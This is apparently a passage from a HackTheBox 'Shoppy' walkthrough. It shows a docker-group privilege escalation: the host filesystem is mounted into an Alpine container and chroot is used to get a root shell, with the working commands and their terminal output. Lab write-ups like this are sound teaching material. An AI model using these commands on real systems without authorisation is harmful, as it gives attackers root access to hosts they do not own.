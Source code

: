### Access Filesystem as root

#### Basic

The exploit here is to create a new container that has the entire file system mounted into it. In that container, I’ll be root, and thus have full access to all the files in the container (including the full host filesystem).

I’ve shown this several times with `lxc` before, but never like this with Docker ([GoodGames](/2022/02/23/htb-goodgames.html#shell-1) is the closest example).

I’ll start the container with `docker run` and the following options:
- `--rm` - remove the container when it’s done
- `-it` - keep STDIN open and assign a PTTY
- `-v /:/mnt` - mount the host `/` to `/mnt` inside the container

I’ll also give it the image name (alpine) and the command to run `/bin/sh` (no `bash` on Alpine). With these, I can start the image and find the host file system in `/mnt`:

```

deploy@shoppy:~$ docker run --rm -it -v /:/mnt alpine /bin/sh
/ # ls
bin    dev    etc    home   lib    media  mnt    opt    proc   root   run    sbin   srv    sys    tmp    usr    var
/ # ls /mnt/
bin             dev             home            initrd.img.old  lib32           libx32          media           opt             root            sbin            sys             usr             vmlinuz
boot            etc             initrd.img      lib             lib64           lost+found      mnt             proc            run             srv             tmp             var             vmlinuz.old

```

#### Neat Upgrade

A neat trick from the [Docker GTFObins page](https://gtfobins.github.io/gtfobins/docker/) is to use `chroot` instead of `sh` as the command. I don’t really need anything in the container filesystem. So I’ll call `chroot /mnt /bin/sh` (giving it a command to run as well, see the [man page](https://linux.die.net/man/1/chroot)). This will set the root of the filesystem to be what was `/mnt`, and then run a shell. This gives the feel as if I’m just back on the host:

```

deploy@shoppy:~$ docker run --rm -it -v /:/mnt alpine chroot /mnt sh
# ls
bin  boot  dev  etc  home  initrd.img  initrd.img.old  lib  lib32  lib64  libx32  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var  vmlinuz  vmlinuz.old

```

#### Read Flag

From here I can read `root.txt`:

